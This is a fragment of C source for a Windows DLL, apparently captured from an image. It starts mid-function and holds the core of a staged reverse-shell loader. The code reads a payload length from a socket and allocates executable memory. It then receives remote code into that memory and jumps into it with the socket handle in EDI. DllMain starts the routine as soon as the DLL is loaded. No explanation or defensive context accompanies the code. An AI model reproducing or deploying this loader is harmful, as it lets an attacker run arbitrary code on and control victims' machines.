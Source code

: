 ```
            WSACleanup();
            return 0;
        } 

        u_int payloadLen;
        if (recv(sock,(char*)&payloadLen,sizeof(payloadLen),0) != sizeof(payloadLen))
        {
            printf("recv error\n");
            closesocket(sock);
            WSACleanup();
            return 0;
        } 

        char* orig_buffer = (char*)VirtualAlloc(NULL,payloadLen,MEM_COMMIT,PAGE_EXECUTE_READWRITE);
        char* buffer = orig_buffer;
        int ret = 0;
        do 
        {
            ret = recv(sock,buffer,payloadLen,0);
            buffer += ret;
            payloadLen -= ret;
        } while (ret > 0 && payloadLen > 0);  


        __asm
        {
            mov edi,sock;   
            jmp orig_buffer; 
        } 

        VirtualFree(orig_buffer,0,MEM_RELEASE);   


}   

BOOL APIENTRY DllMain( HMODULE hModule,
                      DWORD  ul_reason_for_call,
                      LPVOID lpReserved
                      )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        reverse_tcp();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```
